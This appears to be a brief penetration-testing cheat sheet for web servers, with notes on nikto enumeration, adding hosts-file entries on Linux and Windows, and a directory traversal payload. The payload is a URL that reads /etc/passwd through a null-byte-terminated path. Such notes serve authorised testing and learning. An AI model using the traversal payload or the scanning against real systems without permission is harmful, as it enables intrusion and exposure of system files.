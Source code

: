 ## HTTP/HTTPS Pen Testing

### Enumeration
```
nikto -host thedomain.com
```
---

### To add ip's to your host file
Add the following to the hosts file `10.11.1.140 domainname.com`

Linux is `/etc/hosts`

Windows is `C:\windows\system32\drivers\etc\hosts`

---

### Directory Traversal Vulnerability
```
# To attempt to view the /etc/passwd file
http://host/index.php?page=./../../../../../etc/passwd%00
```
